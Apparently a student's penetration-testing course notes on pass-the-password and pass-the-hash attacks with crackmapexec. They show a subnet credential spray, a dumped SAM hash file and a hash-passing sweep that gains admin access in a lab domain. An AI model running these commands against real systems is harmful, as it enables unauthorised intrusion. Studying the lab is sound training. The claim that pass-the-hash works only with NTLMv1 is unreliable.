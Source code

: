 # Pass Attacks

`crackmapexec` was preinstalled (either in Kali or through the `pimpmykali`
script). It offers a lot of functionality that goes way beyond the scope of
this course. To explore the full functionality we can use the command
`crackmapexec --help`, which basically just shows the supported protocols.
`crackmapexec smb --help` will then display the help information on the SMB
protocol, etc., which is quite extensive.



**Pass-the-password attack**

The following command sweeps the subnet defined by the given CIDR notation. The
options `-u`, `-d` and `-p` denote the user, domain and the known password. A
`[-]` indicates an unsuccessful login attempt, a `[+]` indicates a successful
login attempt, and `(Pwn3d!)` indicates that the account has local admin rights
on the respective machine. We can then try to exploit this access in a next
step, e.g. using `secretsdump.py`.

```
┌──(kali㉿kali)-[~]
└─$ crackmapexec smb 10.0.2.0/24 -u fcastle -d MARVEL.local -p Password1 
SMB         10.0.2.6        445    THEPUNISHER      [*] Windows 10 / Server 2019 Build 19041 x64 (name:THEPUNISHER) (domain:MARVEL.local) (signing:False) (SMBv1:False)
SMB         10.0.2.15       445    HYDRA-DC         [*] Windows Server 2022 Build 20348 x64 (name:HYDRA-DC) (domain:MARVEL.local) (signing:True) (SMBv1:False)
SMB         10.0.2.4        445    SPIDERMAN        [*] Windows 10 / Server 2019 Build 19041 x64 (name:SPIDERMAN) (domain:MARVEL.local) (signing:False) (SMBv1:False)
SMB         10.0.2.6        445    THEPUNISHER      [+] MARVEL.local\fcastle:Password1 (Pwn3d!)
SMB         10.0.2.15       445    HYDRA-DC         [+] MARVEL.local\fcastle:Password1 
SMB         10.0.2.4        445    SPIDERMAN        [+] MARVEL.local\fcastle:Password1 (Pwn3d!)
```



**Pass-the-hash attack**

A pass-the-hash attack works only with the `NTLMv1` protocol, not with `NLTLMv2`.
We do not need to crack the hash, it may even be uncrackable for us, but we can
still pass it around. In the following SAM dump, the `NTLM` hashes are stored
with the LM part first and the NT part second. We need to pass the entire
`NTLM` hash with the `-H` option and add the switch `--local-auth`.

```
┌──(kali㉿kali)-[~]
└─$ cat LLMNR_Poisoning/10.0.2.4_samhashes.sam
Administrator:500:aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:ecb2ddf6e131a81e61285c44d9358aaa:::
peterparker:1001:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
                                                                                                                                                            
┌──(kali㉿kali)-[~]
└─$ crackmapexec smb 10.0.2.0/24 -u administrator -H aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f --local-auth
SMB         10.0.2.6        445    THEPUNISHER      [*] Windows 10 / Server 2019 Build 19041 x64 (name:THEPUNISHER) (domain:THEPUNISHER) (signing:False) (SMBv1:False)
SMB         10.0.2.4        445    SPIDERMAN        [*] Windows 10 / Server 2019 Build 19041 x64 (name:SPIDERMAN) (domain:SPIDERMAN) (signing:False) (SMBv1:False)
SMB         10.0.2.15       445    HYDRA-DC         [*] Windows Server 2022 Build 20348 x64 (name:HYDRA-DC) (domain:HYDRA-DC) (signing:True) (SMBv1:False)
SMB         10.0.2.6        445    THEPUNISHER      [+] THEPUNISHER\administrator:7facdc498ed1680c4fd1448319a8c04f (Pwn3d!)
SMB         10.0.2.4        445    SPIDERMAN        [+] SPIDERMAN\administrator:7facdc498ed1680c4fd1448319a8c04f (Pwn3d!)
```